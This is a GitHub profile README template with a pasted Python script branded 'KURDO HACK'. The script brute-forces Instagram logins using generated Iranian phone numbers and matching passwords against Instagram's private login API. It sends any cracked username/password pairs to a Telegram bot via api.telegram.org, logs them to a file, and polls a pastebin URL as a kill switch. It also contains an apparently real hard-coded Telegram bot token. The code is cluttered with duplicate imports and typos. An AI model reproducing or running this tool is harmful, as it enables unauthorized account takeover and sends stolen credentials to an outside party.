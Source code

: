 - 👋 Hi, I’m @Chawshin11
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
Chawshin11/Chawshin11 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
import os, pyfiglet, requests, os, sys, time, requests, os, random, json, threading, secrets, uuid, pyfiglet, threading, sys, time
from colorama import Fore, Style
from time import sleep
from datetime import datetime
from secrets import token_hex
from uuid import uuid4
from random import randint
from user_agent import generate_user_agent
import sys as n, time as mm, requests, os, random, json, threading, secrets, uuid
from colorama import Fore, Style
from time import sleep
from datetime import datetime
from secrets import token_hex
from uuid import uuid4
from user_agent import generate_user_agent
import pyfiglet, os, random, uuid, requests, string
from user_agent import generate_user_agent
from datetime import datetime
from random import *
from time import sleep
import requests, os, random, json, threading, secrets, uuid
from colorama import Fore, Style
from time import sleep
from datetime import datetime
from secrets import token_hex
os.system('title  ')
clear = lambda : os.system('cls')
try:
    import requests
except ImportError:
    os.system('pip install requests')
    import requests
    clear()

try:
    from colored import fg
except ImportError:
    os.system('pip install colored')
    from colored import fg
    clear()

try:
    from uuid import uuid4
except ImportError:
    os.system('pip install uuid')
    from uuid import uuid4
    clear()
else:
    try:
        import random
    except ImportError:
        os.system('pip install random')
        import random
        clear()
    else:
        color3 = fg(2)
        color4 = fg('9')

        def close():
            input('- Press Enter To Exit /')
            sys.exit()


        clear()
try:
    import uuid
except:
    os.system('pip install uuid')

try:
    from random import *
except:
    os.systeam('pip install random ')

try:
    import string
except:
    os.system('pip install string')

try:
    import requests
except:
    os.system('pip install requests ')

try:
    from user_agent import generate_user_agent
except:
    os.system('pip install user_agent ')

try:
    from datetime import datetime
except:
    os.system('pip install datetime ')

try:
    import time
except:
    os.system('pip install time')
else:
    os.system('clear')
    try:
        import pyfiglet
    except:
        os.system('pip install pyfiglet')
    else:
        os.system('clear')
        import pyfiglet, os
        from time import sleep
        import webbrowser, os, sys, requests
        P = '\x1b[2;35m'
        J = '\x1c[1;31m'
        I = '\x1b[2;36m'
        H = '\x1b[2;35m'
        A = '\x1b[2;36m'
        E = '\x1b[1;31m'
        Z = '\x1b[2;31m'
        E = '\x1b[1;31m'
        G = '\x1b[1;32m'
        S = '\x1b[1;33m'
        import user_agent, random, uuid, requests, string
        from user_agent import generate_user_agent
        from datetime import datetime
        from random import *
        from time import sleep
        import requests, os, random, json, threading, secrets, uuid
        from colorama import Fore, Style
        from time import sleep
        from datetime import datetime
        from secrets import token_hex
        from uuid import uuid4
        import pyfiglet, webbrowser
        sleep(1)
        sleep(1)
        os.system('clear')
        aa = 0
        zz = 0
        ib = 0
        print("KURDO HACK 🔥")
        sleep(3)
        os.system('clear')
        A + ' 2053984364:AAF1KLXlC7Irekgpgj1-Z3HAT7jbiVdXpcU '
        print(' 2053984364:AAF1KLXlC7Irekgpgj1-Z3HAT7jbiVdXpcU\n')
        tok = input(S + '     👉 ')
        sleep(2)
        os.system('clear')
        A + ' 2053984364:AAF1KLXlC7Irekgpgj1-Z3HAT7jbiVdXpcU '
        print(' 2053984364:AAF1KLXlC7Irekgpgj1-Z3HAT7jbiVdXpcU\n')
        ID = input(A + '     👉 ')
        sleep(2)
        os.system('clear')
        w = 'https://pastebin.com/raw/mpWBGQKF'
        import time
        t = time.localtime()
        current_time = time.strftime('%H:%M:%S', t)
        sleep(2)
        rss = requests.get(w).text
        if 'I' in rss:
            sleep(0.1)
            r = requests.Session()
            user = '0123456789'
            while True:
                us = str(''.join((random.choice(user) for i in range(7))))
                username = '+98917' + us
                password = '0917' + us
                url = 'https://i.instagram.com/api/v1/accounts/login/'
                headers = {'User-Agent':'Instagram 113.0.0.39.122 Android (24/5.0; 515dpi; 1440x2416; huawei/google; Nexus 6P; angler; angler; en_US)',  'Accept':'*/*',  'Cookie':'missing', 
                 'Accept-Encoding':'gzip, deflate', 
                 'Accept-Language':'en-US', 
                 'X-IG-Capabilities':'3brTvw==', 
                 'X-IG-Connection-Type':'WIFI', 
                 'Content-Type':'application/x-www-form-urlencoded; charset=UTF-8', 
                 'Host':'i.instagram.com'}
                uid = str(uuid4())
                data = {'uuid':uid,  'password':password,  'username':username, 
                 'device_id':uid, 
                 'from_reg':'false', 
                 '_csrftoken':'missing', 
                 'login_attempt_countn':'0'}
                req_login = r.post(url, headers=headers, data=data, allow_redirects=True)
                if 'logged_in_user' in req_login.text:
                    zz += 1
                    print(G + 'username ==> : ' + username + ': password ==> : ' + password)
                    tlg = f"https://api.telegram.org/bot{tok}/sendMessage?chat_id={ID}&text=يهہلـآ تـٰཻــعــُآلـ جـبـتـٰཻــلـڪ حــ۫͜ـســآبـ آيڒٍآني✅🤫 ✅\n━━━━━━━━━━━━\n.🚬. اليميل  : {username}\n.🤪. الرمز : {password}\n.😌. الوقت : {current_time}\n━━━━━━━━━━━━\n.😂. المطور : @KURDOHACK"
                    i = requests.post(tlg)
                    with open('INsTA V2.txt', 'a') as (HACKED):
                        HACKED.write(' [-] UserName : {} [-] Passowrd : {}'.format(username, password))
                elif '"message":"challenge_required","challenge"' in req_login.text:
                    ib += 1
                    print(S + 'username S ==> : ' + username + ': password ==> : ' + password)
                else:
                    print(E + 'username ==> : ' + username + ': password ==> : ' + password)
                    aa += 1

        else:
            print(Z + 'username ==> : ' + username + ': password ==> : ' + password)
            aa += 1

